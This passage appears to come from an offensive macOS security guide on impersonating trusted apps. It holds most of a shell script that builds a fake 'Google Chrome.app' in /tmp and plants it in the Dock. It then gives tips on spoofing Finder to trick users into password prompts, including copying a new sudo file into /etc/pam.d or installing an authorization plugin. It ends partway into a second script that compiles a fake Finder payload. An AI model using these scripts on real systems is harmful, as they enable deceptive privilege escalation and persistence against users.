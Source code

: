```bash
    <key>CFBundleName</key>
    <string>Google Chrome</string>
    <key>CFBundleVersion</key>
    <string>1.0</string>
    <key>CFBundleShortVersionString</key>
    <string>1.0</string>
    <key>CFBundleInfoDictionaryVersion</key>
    <string>6.0</string>
    <key>CFBundlePackageType</key>
    <string>APPL</string>
    <key>CFBundleIconFile</key>
    <string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
cp /Applications/Google\ Chrome.app/Contents/Resources/app.icns /tmp/Google\ Chrome.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Google Chrome.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```
{% endtab %}

{% tab title="Finder Impersonation" %}
Some suggestions:

* You **cannot remove Finder from the Dock**, so if you are going to add it to the Dock, you could put the fake Finder just next to the real one. For this you need to **add the fake Finder entry at the beginning of the Dock array**.
* Another option is to not place it in the Dock and just open it, "Finder asking to control Finder" is not that weird.
* Another options to **escalate to root without asking** the password with a horrible box, is make Finder really ask for the password to perform a privileged action:
  * Ask Finder to copy to **`/etc/pam.d`** a new **`sudo`** file (The prompt asking for the password will indicate that "Finder wants to copy sudo")
  * Ask Finder to copy a new **Authorization Plugin** (You could control the file name so the prompt asking for the password will indicate that "Finder wants to copy Finder.bundle")

```bash
#!/bin/sh

# THIS REQUIRES Finder TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%finder%';

rm -rf /tmp/Finder.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Finder.app/Contents/MacOS
mkdir -p /tmp/Finder.app/Contents/Resources

# Payload to execute
cat > /tmp/Finder.app/Contents/MacOS/Finder.c <<EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
```